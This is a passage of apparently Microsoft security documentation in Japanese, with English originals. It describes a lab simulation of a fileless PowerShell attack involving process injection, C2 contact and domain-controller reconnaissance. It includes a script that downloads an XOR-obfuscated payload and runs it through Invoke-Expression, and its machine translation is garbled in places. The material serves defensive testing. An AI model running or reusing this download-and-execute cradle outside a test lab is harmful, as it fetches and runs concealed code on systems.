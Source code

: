 ![プロセスの挿入と SMB の偵察攻撃の図によるファイルレス PowerShell 攻撃](../../media/mtp/mtpdiydiagram.png)

<span data-ttu-id="b3c19-173">シミュレーション中、攻撃はシェルコードを一見無実のプロセスに挿入します。</span><span class="sxs-lookup"><span data-stu-id="b3c19-173">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="b3c19-174">このシナリオでは、このシナリオを使用notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="b3c19-174">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="b3c19-175">シミュレーションではこのプロセスを選択しましたが、攻撃者は長時間実行されるシステム プロセス (たとえば、svchost.exe) をターゲットにしている可能性が高svchost.exe。</span><span class="sxs-lookup"><span data-stu-id="b3c19-175">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="b3c19-176">その後、シェルコードは攻撃者のコマンド アンド コントロール (C2) サーバーに問い合わせ、続行方法に関する指示を受け取る。</span><span class="sxs-lookup"><span data-stu-id="b3c19-176">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="b3c19-177">スクリプトは、ドメイン コントローラー (DC) に対する偵察クエリの実行を試みます。</span><span class="sxs-lookup"><span data-stu-id="b3c19-177">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="b3c19-178">偵察により、攻撃者は最近のユーザー ログイン情報に関する情報を取得できます。</span><span class="sxs-lookup"><span data-stu-id="b3c19-178">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="b3c19-179">攻撃者がこの情報を取得すると、ネットワーク内を横方向に移動して、特定の機密性の高いアカウントにアクセスできます。</span><span class="sxs-lookup"><span data-stu-id="b3c19-179">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="b3c19-180">最適な結果を得る場合は、可能な限り攻撃シミュレーションの指示に従ってください。</span><span class="sxs-lookup"><span data-stu-id="b3c19-180">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a><span data-ttu-id="b3c19-181">分離された DS ドメイン AD攻撃シミュレーションを実行する</span><span class="sxs-lookup"><span data-stu-id="b3c19-181">Run the isolated AD DS domain controller attack simulation</span></span>

<span data-ttu-id="b3c19-182">攻撃シナリオのシミュレーションを実行するには、次のコマンドを実行します。</span><span class="sxs-lookup"><span data-stu-id="b3c19-182">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="b3c19-183">パイロット環境に、分離された DS ドメイン コントローラーとADデバイスが含Windows 10してください。</span><span class="sxs-lookup"><span data-stu-id="b3c19-183">Ensure that your pilot environment includes the isolated AD DS domain controller and Windows 10 device.</span></span>

2. <span data-ttu-id="b3c19-184">テスト ユーザー アカウントを使用してテスト デバイスにサインインします。</span><span class="sxs-lookup"><span data-stu-id="b3c19-184">Sign in to the test device with the test user account.</span></span>

3. <span data-ttu-id="b3c19-185">テスト デバイスWindows PowerShellウィンドウを開きます。</span><span class="sxs-lookup"><span data-stu-id="b3c19-185">Open a Windows PowerShell window on the test device.</span></span>

4. <span data-ttu-id="b3c19-186">次のシミュレーション スクリプトをコピーします。</span><span class="sxs-lookup"><span data-stu-id="b3c19-186">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
